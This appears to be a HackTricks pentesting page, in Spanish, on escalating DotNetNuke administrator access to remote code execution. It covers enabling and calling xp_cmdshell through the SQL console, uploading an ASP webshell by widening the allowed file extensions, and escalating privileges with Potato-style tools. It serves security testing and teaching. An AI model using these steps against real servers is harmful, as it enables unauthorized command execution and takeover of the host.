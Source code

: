 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Si ingresas como **administrador** en DNN, es fácil obtener RCE.

## RCE

### A través de SQL

Una consola SQL es accesible en la página de **`Configuración`** donde puedes habilitar **`xp_cmdshell`** y **ejecutar comandos del sistema operativo**.

Usa estas líneas para habilitar **`xp_cmdshell`**:
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
Y presiona **"Run Script"** para ejecutar esas sentencias SQL.

Luego, usa algo como lo siguiente para ejecutar comandos del sistema operativo:
```sql
xp_cmdshell 'whoami'
```
### A través de ASP webshell

En `Settings -> Security -> More -> More Security Settings` puedes **agregar nuevas extensiones permitidas** en `Allowable File Extensions`, y luego hacer clic en el botón `Save`.

Agrega **`asp`** o **`aspx`** y luego en **`/admin/file-management`** sube un **asp webshell** llamado `shell.asp`, por ejemplo.

Luego accede a **`/Portals/0/shell.asp`** para acceder a tu webshell.

### Escalamiento de privilegios

Puedes **escalar privilegios** usando **Potatoes** o **PrintSpoofer**, por ejemplo.&#x20;

{{#include ../../banners/hacktricks-training.md}}
